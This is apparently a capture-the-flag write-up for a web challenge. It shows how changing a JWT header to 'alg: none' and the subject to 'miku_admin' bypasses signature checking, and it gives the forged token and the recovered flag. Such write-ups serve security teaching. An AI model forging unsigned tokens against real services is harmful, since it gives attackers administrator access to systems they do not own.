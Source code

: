 # Miku's Autograph - web

## Challenge

I am so proud of the fact that I have Miku's autograph. Ha! You don't!

## Solve

Capturing the traffic made to the webpage, we can see that when we attempt to log in, our request is denied with the message

```
You are not miku_admin!!!
```

We can also see our request is sent with a `magic_token`:

img1


This is a JSON web token (JWT) which has the following structure:

```
header.payload.signature
```

The header and payload are just base64 encoded which we can see contain:

***Header***

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

***Payload***

```json
{
  "sub": "miku_user",
  "exp": 1739771575
}
```

The signature component of the token takes the base64 encoded header and payload, a secret and signs with the algorithm specified in the `alg` header.

It turns out we can bypass this signature by setting the `alg` header to `none` and can modify the payload as we like.

The newly crafted token (unencoded looks like this):

***Header***

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

***Payload***

```json
{
  "sub": "miku_admin",
  "exp": 1739771575
}
```

We can then base64 encode each section, reassemble the token and send our request to the server. Since the signature won't be verified, we can leave it as is. The updated token looks like this:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiJtaWt1X2FkbWluIiwiZXhwIjoxNzM5NzcxNTc1fQ==.yLyTGi_VSOnqfYLO3o6KHtoCMUKjESlqxj7WAZYiEq8
```

Sending the request we can successfully obtain the flag:

img2

`bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}`